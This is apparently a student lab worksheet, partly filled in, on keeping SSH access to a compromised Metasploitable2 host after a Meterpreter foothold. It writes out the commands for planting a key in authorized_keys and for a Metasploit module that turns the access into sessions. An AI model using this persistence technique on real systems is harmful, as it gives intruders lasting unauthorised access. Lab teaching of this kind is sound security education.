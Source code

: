 # 📝 Student Worksheet – SSH Persistence After Initial Foothold

## Objective  
In this lab, you will learn how to maintain access on a compromised Linux system by setting up **SSH key-based persistence** after gaining your first shell foothold (e.g., via Meterpreter).

**IMPORTANT** You must have a Meterpreter session to your target as a pre-requisite for this worksheet!

---

## Step 1 – Generate SSH Keys (on Kali)  
We first create an RSA key pair (public + private key) to authenticate later.

```bash
ssh-keygen -t rsa -b 2048 -f ./id_rsa -N ""
```

✅ **Checkpoint:**  
1. Which two files were generated? (e.g., `id_rsa`, `id_rsa.pub`)?
- Answer: id_rsa, id_rsa.pub
2. Which file should never be shared? (private key or public key?)
- Answer: Private key.

---

## Step 2 – Upload Public Key to Target  
From your Meterpreter session, upload the public key:

```bash
upload id_rsa.pub /tmp/id_rsa.pub
```

✅ **Checkpoint:**  
3. Where is the public key stored on the target?
- Answer: /tmp/id_rsa.pub

---

## Step 3 – Configure Persistence on Target  
Open a shell inside Meterpreter:

```bash
shell
```

Now run these commands **one at a time**:

```bash
mkdir -p ~/.ssh
cat /tmp/id_rsa.pub >> ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
rm /tmp/id_rsa.pub
exit
```

✅ **Checkpoint:**  
4. What does `chmod 600 ~/.ssh/authorized_keys` do?  
- Answer: This command enables read-write permission but does not allow to execute. 

---

## Step 4 – Connect Back with SSH  
On Kali, use the private key to connect:

```bash
ssh -i ./id_rsa -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa <username>@<target-ip>
```

- **Username:** Found by running `whoami` inside the foothold shell (e.g., `www-data`)  
- **Target IP:** Found on Metasploitable2 using:

```bash
ifconfig
```

✅ **Checkpoint:**  
5. What username did you gain access as? 
- Answer: www-data  
6. What is the target IP?
- Answer: 192.168.56.102

**Note:** Type `yes` if prompted about host fingerprinting.  

---

## Step 5 – Persistence with Metasploit (Optional)  
You can also manage SSH persistence via Metasploit.

1. Start Metasploit:  
   ```bash
   msfconsole
   ```

2. Configure the module:  
   ```bash
   use auxiliary/scanner/ssh/ssh_login_pubkey
   set rhost <target-ip>
   set USERNAME www-data
   set KEY_PATH ./id_rsa
   set SSH_KEYFILE_ALGS +ssh-rsa,ssh-dss
   run
   ```

3. List sessions:  
   ```bash
   sessions -l
   ```

4. Upgrade shell session to Meterpreter:  
   ```bash
   sessions -u <session-id>
   ```

5. Interact with the new session:  
   ```bash
   sessions -i <new-session-id>
   ```

✅ **Checkpoint:**  
7. What session ID was upgraded?  
- Answer:
8. Why might upgrading to Meterpreter be useful?
- Answer:

---

## Reflection Questions
9. Why is SSH persistence more reliable than keeping only a Meterpreter shell?
- Answer:  
10. What security controls could prevent an attacker from using this technique?  
- Answer: 

---

⚠️ **Ethics Reminder:**  
This technique is for **educational purposes only**. Never attempt persistence on a system you do not own or have explicit permission to test.  
